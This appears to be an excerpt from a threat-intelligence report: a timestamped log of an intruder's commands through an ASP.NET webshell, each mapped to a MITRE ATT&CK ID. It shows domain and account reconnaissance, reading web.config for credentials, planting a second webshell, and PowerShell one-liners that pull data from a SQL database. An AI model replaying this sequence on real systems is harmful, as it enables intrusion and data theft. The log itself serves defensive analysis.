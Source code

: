 
9/10/20 20:49:19
ShowDoc.aspx
echo %USERDOMAIN%
T1016


9/10/20 20:49:27
ShowDoc.aspx
net users /domain
T1087.002


9/10/20 20:49:35
ShowDoc.aspx
net users
T1087.001


9/10/20 20:49:44
ShowDoc.aspx
net localgroup administrators
T1087.001


9/10/20 20:50:16
ShowDoc.aspx
net view
T1135


9/10/20 20:50:21
ShowDoc.aspx
type ..\..\web.config
T1005


9/10/20 20:50:40
ShowDoc.aspx
** Uploads cq.aspx webshell **
T1505.003


9/10/20 20:51:16
cq.aspx
powershell -C "$conn=new-object System.Data.SqlClient.SQLConnection("""<redacted SQL connection>""");Try { $conn.Open(); }Catch { continue; }$cmd = new-object System.Data.SqlClient.SqlCommand("""select @@version;""",$conn);$ds=New-Object system.Data.DataSet;$da=New-Object system.Data.SqlClient.SqlDataAdapter($cmd);[void]$da.fill($ds);$ds.Tables[0];$conn.Close();"
T1059.001,
T1213


9/10/20 20:51:37
cq.aspx
powershell -C "$conn=new-object System.Data.SqlClient.SQLConnection("""<redacted SQL connection>""");Try { $conn.Open(); }Catch { continue; }$cmd = new-object System.Data.SqlClient.SqlCommand("""<redacted SQL query>""",$conn);$ds=New-Object system.Data.DataSet;$da=New-Object system.Data.SqlClient.SqlDataAdapter($cmd);[void]$da.fill($ds);$ds.Tables[0];$conn.Close();"
T1059.001,T1213
